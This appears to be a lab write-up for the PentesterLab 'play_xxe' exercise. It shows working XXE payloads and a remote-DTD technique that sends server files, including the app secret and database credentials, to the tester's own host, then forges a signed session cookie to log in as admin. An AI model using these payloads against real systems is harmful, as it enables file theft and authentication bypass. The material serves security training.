 #### 2.1. About exercise

URL: `https://pentesterlab.com/exercises/play_xxe`

The goal of the lab exercise is to retrieve the cookie signature key from the app's config, and then generate a valid cookie to authenticate as `admin`.

Also, the challenge requires disclosure of all routes to reach the (secret) URL, which may be a protected/internal resources.

Download the ISO for VMWare:
```
$ wget https://pentesterlab.com/exercises/play_xxe/iso
```

#### 2.2. App routes in Play framework

Documentation:
- `https://www.playframework.com/documentation/1.2/routes`
- Files: 
  - `conf/routes`
  - `conf/application.conf`


#### 2.3. Basic detection

Local sever for entity HTTP request:
```
$ python -m http.server 8888
```

Test 1:
```
$ cat req1.xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
	<!ENTITY call SYSTEM "http://192.168.209.146:8888/XXE">
]>
<test>&call;</test>
$ http POST 192.168.209.136/login @req1.xml Content-Type:text/xml >/dev/null
```
Logs on sever:
```
192.168.209.136 - - [NOLOGS] code 404, message File not found
192.168.209.136 - - [NOLOGS] "GET /XXE HTTP/1.1" 404 -
```

Test 2:
```
$ cat req2.xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://192.168.209.146:8888/XXE">
$ http POST 192.168.209.136/login @req2.xml Content-Type:text/xml >/dev/null
```
Logs on sever:
```
192.168.209.136 - - [NOLOGS] code 404, message File not found
192.168.209.136 - - [NOLOGS] "GET /XXE HTTP/1.1" 404 -
```

Test 3:
```
$ cat req3.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///opt">]>
<foo>&xxe;</foo>
$ http POST 192.168.209.136/login @req3.xml Content-Type:text/xml -v
```
Note: no errors while reading `/` (dir listing)

Test 4:
```
$ cat req4.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///lol">]>
<foo>&xxe;</foo>
$ http POST 192.168.209.136/login @req4.xml Content-Type:text/xml
```
Note: `/lol` should not exist; response is `For request 'POST /login' [Invalid XML]`

Will most likely timeout:
```console


<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [<!ENTITY f SYSTEM "file:///">]>
<foo><x>&f;</x></foo>
```

#### 2.4. Listing root directory via XXE

Remote DTD file to be served:
```
$ cat /tmp/dtd
<!ENTITY % f SYSTEM "file:///">
<!ENTITY % all "<!ENTITY trigger SYSTEM 'http://192.168.209.146:8888/?%f;'>">
%all;
```

Run with remote DTD:
```
$ cat req5.xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://192.168.209.146:8888/dtd">
<x>&trigger;</x>
$ http POST 192.168.209.136/login @req5.xml Content-Type:text/xml >/dev/null
```

Logs on sever:
```
192.168.209.136 - - [NOLOGS] "GET /dtd HTTP/1.1" 200 -
192.168.209.136 - - [NOLOGS] "GET /?bin%0Aboot%0Adev%0Aetc%0Ahome%0Ainit%0Alib%0Alinuxrc%0Amnt%0Aopt%0Aproc%0Aroot%0Arun%0Asbin%0Asys%0Atmp%0Ausr%0Avar%0A HTTP/1.1" 200 -
```

#### 2.5. Reading the sensitive data

a) DTD file for reading the `application.conf` file:
```
<!ENTITY % f SYSTEM "file:///opt/play-2.1.3/xxe/conf/application.conf">
<!ENTITY % all "<!ENTITY trigger SYSTEM 'http://192.168.209.146:8888/?%f;'>">
%all;
```

b) DTD file for reading the `routes` file:
```
<!ENTITY % f SYSTEM "file:///opt/play-2.1.3/xxe/conf/routes">
<!ENTITY % all "<!ENTITY trigger SYSTEM 'http://192.168.209.146:8888/?%f;'>">
%all;
```


#### 2.4 HTTP logs

a) Contents of `/opt/play-2.1.3/xxe/conf/application.conf` (URL decoded and formatted):
```
192.168.209.136 - - [NOLOGS] "GET /dtd HTTP/1.1" 200 -
192.168.209.136 - - [0NOLOGS] "GET /?
application.secret="X7G@Abg53=2p=][5F;uMNDm/QrDtVG0^iYHC3]Ov0t0E6b_amL16UynUbqS_?_eG"
application.langs="en"
db.default.driver=com.mysql.jdbc.Driver
db.default.url="mysql://pentesterlab:pentesterlab@localhost/xxe"
ebean.default="models.*"
logger.root=ERROR
logger.play=INFO
logger.application=DEBUG
HTTP/1.1" 200 -
```

b) Contents of `/opt/play-2.1.3/xxe/conf/routes` (URL decoded and formatted):
```
192.168.209.136 - - [NOLOGS] "GET /dtd HTTP/1.1" 200 -
192.168.209.136 - - [NOLOGS] "GET /?
GET     /                           controllers.Application.index()
GET     /0ecf87346b9c0b370f8d63e6e7fed4f0             controllers.Application.secret_url()
GET       /login                   controllers.Application.login
POST      /login                   controllers.Application.login
GET       /logout                  controllers.Application.logout
GET     /assets/*file               controllers.Assets.at(path="/public", file) 
HTTP/1.1" 200 -
```

To reach the secret page:
```
# http http://192.168.209.136/0ecf87346b9c0b370f8d63e6e7fed4f0 -b
```

#### 2.5. Authentication bypass

Generic cookie format:
```
Cookie: PLAY_SESSION="[signature_goes_here]-user=admin"
```

To sign a valid cookie using `application.secret`:
```
# echo -n 'user=admin' | openssl dgst -sha1 -hmac 'X7G@Abg53=2p=][5F;uMNDm/QrDtVG0^iYHC3]Ov0t0E6b_amL16UynUbqS_?_eG'
(stdin)= a5b8363ce748cfbb5d654edc3676d440173b33de
```

Final cookie:
```
Cookie: PLAY_SESSION="a5b8363ce748cfbb5d654edc3676d440173b33de-user=admin"
```

Gaining access as `admin` user:
```
# http http://192.168.209.136/ Cookie:PLAY_SESSION="a5b8363ce748cfbb5d654edc3676d440173b33de-user=admin" -v
```
